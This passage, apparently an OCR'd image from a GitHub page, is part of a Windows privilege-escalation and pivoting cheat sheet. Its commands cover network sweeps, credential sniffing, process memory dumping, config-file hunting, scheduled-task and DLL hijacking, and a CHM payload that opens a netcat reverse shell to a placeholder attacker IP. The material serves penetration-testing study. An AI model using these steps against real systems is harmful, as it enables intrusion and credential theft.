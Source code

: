             *   DB Access                   → Data Dump / Blank Password / [UDF Escalation](https://juggernaut-sec.com/mysql-user-defined-functions/)
            *   Local Forwarding
            *   Splunk Forwarder / Erlang Port (25672)
        *   [Dynamic Forwarding](https://notes.dollarboysushil.com/pivoting-and-tunneling/ligolo-ng)
            *   `ipconfig /all` / `route -n` →  Ligolo Tunnel
            *   Local Sweep
                *   Valid for `/24` → Adjust Accordingly
                *   `(for /L %a IN (1,1,254) DO ping /n 1 /w 1 [INTRANET_CIDR_BLOCK].%a) | find “Reply”`
        *   Traffic Sniffing
            *   `python net-creds.py -i [NIC]`
            *   TCPDump + PCAP Wireshark Analysis → All Unencrypted Protocols
    *   Processes
        *   `tasklist /v /fi "username eq [SYSTEM/USER]"`
        *   `icacls` → (F/M/W) File/Folder Permissions → [Overwrite Binary / DLL Hijack](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#running-processes)
        *   Process Strings                                                  → Credentials + Info Disclosure
        *   Electron / Chrome Debugger Hijacking
        *   Memory Dumping (Admin)
            *   Unencrypted Services
            *   Browsers / Password Managers
            *   `procdump.exe -accepteula -ma [PROC_NAME]`
    *   Applications
        *   Exploit Research / License & Readme / Executable Help & Flags / Network Access
        *   `wmic product get name,version`
        *   `dir /a /q "C:\Program Files" "C:\Program Files (x86)"`
        *   `cd C:\`  → Non-Default Folders / `inetpub` / `passcore`
        *   Application Data Folders
            *   Sensitive Extensions  → `.conf` / `.xml` / `.cnf` / `.config` / `.ini` / `.txt` / `.log` / Encrypted / Archives / SQLITE
            *   `C:\Users\[USERNAME]\AppData`
            *   `C:\ProgramData`
            *   `C:\ProgramData\Configs\*`
            *   `C:\Program Files\Windows Powershell\*`
            *   `%WINDIR%\System32\CCM\logs\*.log`
        *   CHM Hijacking
            *   `.chm` Files Exists → Check If `C:\Program Files (x86)\HTML Help Workshop` Installed
            *   [Out-CHM](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)           → `Out-CHM -Payload "c:\windows\temp\nc64.exe -e cmd [KALI_IP] [PORT]" -HHCPath "[HTML_HELP_WORKSHOP_PATH]`
            *   `listen [PORT]`    → Wait Callback
        *   Custom Binaries
            *   Reverse Engineering → Basic Enumeration / Ghidra Decompiling
            *   Local / [Remote](https://gist.github.com/Reodus/153373b38b7b54b3e3034cb14122f18a) BOF → ImmunityDebugger / MSFVenom Shellcoding / Vulnerable Functions
    *   Scheduled Jobs
        *   Scripts
            *   `dir /a /q /s /b *.bat *.ps1`
            *   Scheduled Execution → Overwrite + Wait
        *   Tasks
            *   `schtasks /query /fo LIST /v | findstr /v "\Microsoft*" | findstr TaskName`
            *   `schtasks /query /fo LIST /v | findstr /v "\Microsoft*" | findstr [TASK_NAME_HERE]`
            *   `icacls` → (F/M/W) File/Folder Permissions → Overwrite + Wait / DLL Hijack
        *   PS Spying
            *   `$process = Get-WmiObject Win32_Process | Select-Object CommandLine`
            *   `Start-Sleep`
            *   `$process2 = Get-WmiObject Win32_Process | Select-Object CommandLine`
            *   `Compare-Object -ReferenceObject $process -DifferenceObject $process2`
        *   Autoruns
            *   `wmic startup get caption,command 2>nul & ^`
            *   `HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\[User] Shell Folders`
            *   `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "[Userinit/Shell]"`
            *   `icacls` → (F/M/W) File/Folder/Key Permissions → Overwrite + Wait Login / DLL Hijack